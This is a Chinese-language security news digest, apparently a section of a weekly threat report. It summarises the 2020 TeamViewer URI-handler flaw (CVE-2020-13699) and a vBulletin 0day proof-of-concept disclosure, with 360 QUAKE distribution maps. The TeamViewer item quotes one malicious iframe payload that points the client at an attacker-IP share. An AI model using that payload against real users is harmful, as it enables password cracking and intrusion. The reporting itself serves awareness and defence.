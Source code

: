 
0x05 其它事件
---------


### TeamViewer漏洞能够破解密码



```
日期: 2020年8月10日
等级: 高
作者: Lindsey O'Donnell
标签: TeamViewer, CVE-2020-13699, URI, Windows, Iframe, Attack

```
流行的远程支持软件`TeamViewer`已在其`Windows`桌面应用程序中修复了一个严重级别的漏洞。如果被利用，则该漏洞可能允许未经身份验证的远程攻击者，在用户的系统上执行代码或破解其`TeamViewer`密码。`TeamViewer`是企业使用的专有软件应用程序，用于远程控制功能，桌面共享，在线会议，Web会议和计算机之间的文件传输。最近发现的缺陷源于`Windows`桌面应用程序（`CVE-2020-13699`），没有正确引用其自定义统一资源标识符（`URI`）处理程序。“攻击者可以使用精心制作的URL（`<iframesrc='teamviewer10：–play\\attacker-IP\share\fake.tvs'>`）将恶意`iframe`嵌入网站中，从而启动`TeamViewerWindows`桌面客户端并强制执行此操作。


目前`TeamViewer`在全球均有分布，具体分布如下图，数据来自于`360 QUAKE`


![](https://p403.ssl.qhimgs4.com/t01fdc923f84dd18600.jpeg)


**详情**


TeamViewer Flaw in Windows App Allows Password-Cracking


<https://threatpost.com/teamviewer-fhigh-severity-flaw-windows-app/158204/>


### 安全研究员发布vBulletin 0day漏洞的详情和利用代码



```
日期: 2020年8月10日
等级: 高
作者: Catalin Cimpanu
标签: vBulletin, CVE-2019-16759, Remote Code Execution, Forums

```
安全研究人员已发布了`vBulletin`（当今最受欢迎的论坛软件之一）中的0day漏洞的详细信息和概念验证漏洞的利用代码。该0day漏洞是对先前`vBulletin`的漏洞（即CVE-2019-16759）的补丁的绕过，该漏洞于2019年9月披露。以前的0day漏洞允许攻击者利用`vBulletin`模板系统中的错误来运行恶意代码，进而接管论坛，而无需在受害站点上进行身份验证（一种称为`pre-authRCE`的漏洞）。`CVE-2019-16759`于2019年9月24日公布，并于9月25日提供了补丁。


目前`vBulletin`在全球均有分布，具体分布如下图，数据来自于`360 QUAKE`


![](https://p403.ssl.qhimgs4.com/t0131c63a5d52172f2b.png)


**详情**

